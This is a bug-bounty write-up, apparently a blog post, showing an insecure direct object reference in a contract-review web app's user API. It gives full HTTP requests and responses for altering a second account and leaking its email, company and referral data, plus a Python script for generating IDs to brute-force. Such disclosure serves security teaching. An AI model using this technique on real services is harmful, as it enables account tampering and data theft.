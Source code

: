 ```yaml
---
layout: post
title: Changing userID leads to Data leakage and Profile Update
categories: bug hunting 
---
```


In another bug bounty session of mine, I came across a bounty program of a "Contract Review" company.

In their web app, one could register with a first/last name, an email and their company's name (and a password ofc).

Upon trying to figure out how the web app works, I updated my profile by changing my first name from "vict0ni" to "vict0ni1337". I captured the request:

```
OPTIONS /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization,content-type
Origin: https://app.website.com
Connection: close
```
followed by:
```
PUT /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:
```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 13:43:35 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 948
Connection: close
Set-Cookie: __cfduid=db2571d1ac9e83a96ca3265b9a0bf1d4c1580996613; expires=Sat, 07-Mar-20 13:43:33 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3b4-QbbUm9x0qtqg3/Bqcixd7mbQgqw"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 560d8dc0581c4098-HAM

{"users":[{"contracts":[],"createdAt":1580425135972,"updatedAt":1580996613958,"id":"5e335fafedd93a1f35b6ca27","email":"vict0ni@bugcrowdninja.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"3measgw3gr1yjpgvddqn","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e335faeedd93a1f35b6ca26"}],"companies":[{"createdAt":1580425133542,"updatedAt":1580428552059,"id":"5e335faeedd93a1f35b6ca26","name":"BugBounty","seq":5119,"vatId":"","phone":"1337","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"zqpwr","referralExtraCredits":0,"subscription":{"id":"16A1DGRp7Up0s1Qu7","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e335faeedd93a1f35b6ca26/users","contracts":"/companies/5e335faeedd93a1f35b6ca26/contracts"}}]}
```
So I was making an OPTIONS request and then a PUT request with my personal userID ``5e335fafedd93a1f35b6ca27`` updating my first name (one could only change the first and last name).

I always make two accounts when testing a web app. I did the same thing for my second account, just in order to grab that userID. Then I thought what could happen if I used the userID of account B in a request to update the account A. So I did the exact same thing as described above, being authorized as a user of account A, but using the userID of account B:

```
PUT /users/5e3c8692f3d2c616c6ed78e9 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:

```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 21:38:07 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 943
Connection: close
Set-Cookie: __cfduid=d78cefde78c34008ca49d162306b8fcfb1581025085; expires=Sat, 07-Mar-20 21:38:05 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3af-ctJNYxOVotnOZ8DYR4ejpainHVE"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 561044dd2b4fcd93-CDG

{"users":[{"contracts":[],"createdAt":1581024914019,"updatedAt":1581025085895,"id":"5e3c8692f3d2c616c6ad78e9","email":"yigoxa6599@jmail7.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"5pjs1pjjwprphpkce0rj","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e3c8690f3d2c616c6ed78e8"}],"companies":[{"createdAt":1581024911551,"updatedAt":1581024919638,"id":"5e3c8690f3d2c616c6ed78e8","name":"CompanyB","seq":5137,"vatId":"","phone":"","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"plozx","referralExtraCredits":0,"subscription":{"id":"16BcmbRpl5Qvt1Lwv","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e3c8690f3d2c616c6ed78e8/users","contracts":"/companies/5e3c8690f3d2c616c6ed78e8/contracts"}}]}
```
So, by changing the userID to the account B's userID, I could update the account B's first and last name, grab it's mail, referral code, companyID, subscription plan, number of employees, phone number, the company's [VAT identification number](https://en.wikipedia.org/wiki/VAT_identification_number) etc., while being authorized as account A. With the referral code, a user could use it to gain $30 as a "gift" for getting referred by another user.

While that's all good, the userID of each account remains secret. There had to be some kind of MiTM attack to capture it and make a targeted attack. So I thought maybe I could generalize the attack, instead of targeting a single account.
By using dummy userIDs, in order to test the brute-force protection, I found out that the endpoint was vulnerable to brute-force attacks. Since the userID is following a certain pattern (a string of 24 hex characters), one could generate all the possible IDs and save them into a file with this python script:

```python
import itertools

string = '0123456789abcdef'
file = open('userIDs.txt', 'w')
i = 0
for p in itertools.product(string, repeat=15):
	i+=1
	writing = ''.join(p) + '\n'
	file.write(writing)
file.close()
```

With enough computing power, an attacker could change the first/last name of all users and grab their account and company info.


Thanks for reading!